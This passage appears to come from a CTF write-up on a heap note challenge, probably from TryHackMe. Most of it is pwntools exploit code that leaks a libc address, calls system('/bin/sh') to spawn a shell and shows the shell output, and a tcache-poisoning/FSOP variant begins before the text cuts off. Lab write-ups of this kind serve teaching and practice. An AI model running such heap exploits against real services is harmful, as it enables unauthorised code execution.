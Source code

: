 ```py
def delete(index):
    r.sendlineafter(b'\n>>', b'4')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def win(index, content):
    r.sendlineafter(b'\n>>', b'5')
    r.sendlineafter(b'Enter the index:', str(index).encode())
    r.sendlineafter(b'Enter the data:', content.encode())


# Create two large chunks and free the first one
create(0x1000, b"A")
create(0x1000, b"A")
delete(0)

# Leak the address and calculate the libc base address
show(0)
libc_base = u64(r.recvline().rstrip().ljust(8, b"\x00")) - 0x219ce0
libc.address = libc_base

# Write system address to a note
create(0x200, p64(libc.sym["system"]))

# Execute system("/bin/sh") by triggering the win function
win(2, str(next(libc.search(b"/bin/sh"))))

r.recv()
r.interactive("$ ")
```
{: file="solve.py" }

Running the script, we are able to get a shell and read the flag.

```console
$ python3 solve.py
$ id
uid=1000 gid=1000 groups=1000
$ wc -c flag.txt
42 flag.txt
```

### Spawning a Shell (FSOP)

I also wanted to showcase how it is possible to solve this challenge using **Tcache poisoning** and **FSOP** methods, similar to how we solved the [**third challenge of the AOC 2024 Side Quests**](/posts/tryhackme-aoc2024_sidequest_three/#second-flag), instead of using the provided `win` function, as follows:

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
libc = ELF("./libc.so.6", checksec=False)

r = remote("10.10.62.203", 5001)

def create(size, content):
    r.sendlineafter(b'\n>>', b'1')
    r.sendlineafter(b'Enter entry size:\n', str(size).encode())
    r.sendlineafter(b'Enter entry data:\n', content)

def show(index):
    r.sendlineafter(b'\n>>', b'2')
```